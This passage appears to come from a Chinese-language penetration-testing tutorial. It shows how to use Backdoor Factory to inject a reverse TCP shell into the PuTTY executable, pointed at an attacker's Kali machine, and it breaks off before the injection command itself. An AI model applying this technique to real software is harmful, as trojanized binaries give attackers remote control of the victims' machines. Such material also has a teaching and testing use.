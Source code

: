 ```
cd
mkdir exploit
cp ~/Downloads/putty.exe ~/exploit/
```

1.  接下来，让我们首先运行 Backdoor Factory，看看我们可以将哪些内容插入到`putty.exe`中：

```
backdoor-factory -f ~/exploit/putty.exe <enter>
```

![](img/4837a190-8cee-4bf7-9129-af6b869d506f.png)Backdoor Factory 可用 Shell 代码输出屏幕

1.  注意可用于此可执行文件的选项。我们将选择`reverse_shell_tcp_inline`，使用我们 Kali 机器的 IP，并输入以下命令来使用端口号。在执行命令时，系统会询问你可以在哪里注入代码；我们简单地选择`1`：
